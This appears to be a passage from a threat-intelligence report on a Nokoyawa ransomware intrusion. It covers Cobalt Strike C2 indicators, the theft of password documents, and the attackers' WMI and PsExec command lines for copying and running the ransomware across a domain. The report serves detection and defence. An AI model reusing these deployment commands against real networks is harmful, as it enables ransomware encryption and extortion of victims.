 # Beaconing

Below is a screenshot of a packet captured from C2 traffic over HTTP. Encrypted POST requests made to iconnectgs[.]com (50.3.132[.]232) are seen:

# Cobalt Strike Configurations



During the intrusion, the threat actors targeted password documents on network shares. We observed these being taken and opened off network through the use of canaries. No overt exfiltration was observed so we assess that this occurred over existing command and control channels.

The threat actors opened the document from the IP:

45.61.139.126

Threat Actors deployed Nokoyawa ransomware from one of the servers using WMI and PsExec. They first copied the ransomware binary,k.exe, and a batch script p.bat using WMI:

wmic /node:"TARGET_HOST_IP" /user:"DOMAIN\USER" /password:"PASSWORD" process call create "cmd.exe /c copy \\SOURCE_SERVER_IP\c$\windows\temp\p.bat c:\windows\temp\"

Command spawned by WmiPrvSE.exe:

cmd.exe /c copy \\SOURCE_SERVER_IP\c$\windows\temp\k.exe c:\windows\temp\

A snippet of SMB network traffic generated by the above command:

The p.bat is a simple batch script that runs the k.exe binary with a Base64 encoded configuration:

c:\windows\temp\k.exe --config REDACTED

The redacted parameter used by the `–config` flag decodes to:



The decoded configuration file shows the ransomware extension, the note name, and the note content encoded in Base64. The threat actors also configured a number of directories and extensions to skip, and enabled network and hidden drives encryption. The DELETE_SHADOW was set to true, in order to delete volume shadow copies.

Based on the configuration parameters being passed via command line and the code written in C++, the deployment appears to be part of the 1.1 version of the Nokoyawa code base:

Ransomware sample code signature:

Debug information shows that the binary was generated a few hours before the encryption:

The ransomware was then deployed at scale using PsExec to encrypt the Windows domain:

psexec.exe \\TARGET_HOST_IP -u DOMAIN\USER -p "PASSWORD" -s -d -h -r mstdc -accepteula -nobanner c:\windows\temp\p.bat

A ransom message was left in each directory where files were encrypted.

After encryption, contact was made with the threat actors using their support site and the price of the ransom was quoted at ~$200,000 USD in Bitcoin. No ransom was paid as a result of this intrusion.
